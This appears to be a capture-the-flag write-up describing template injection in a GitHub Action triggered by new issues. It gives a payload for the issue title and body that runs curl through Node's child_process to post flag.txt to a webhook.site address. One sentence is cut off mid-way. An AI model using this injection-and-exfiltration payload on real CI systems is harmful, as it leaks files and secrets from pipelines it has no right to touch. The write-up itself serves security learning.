 # Issue Tracker
## Author: Helen O'Connell (hsoconne)
## Team: 0wnth3pwn
**Vulnerability**
When a new issue is created, a Github Action runs. Within this action, there is a possibility of code execution. The title and body of these 
**Step 1**
Create a new issue 
**Step 2**
Make the following code block the body and title. Using a webhook site to send the flag too.
`{{process.mainModule.require('child_process').exec('curl -XPOST -d "$(cat flag.txt)" https://webhook.site/c6d14f4c-9d88-47a9-90a4-dde982b6893f')%7D%7D`
**Step Three**
Check the webhook site for the contents of the flag.txt file. For ours, was accessible at (https://webhook.site/c6d14f4c-9d88-47a9-90a4-dde982b6893f)

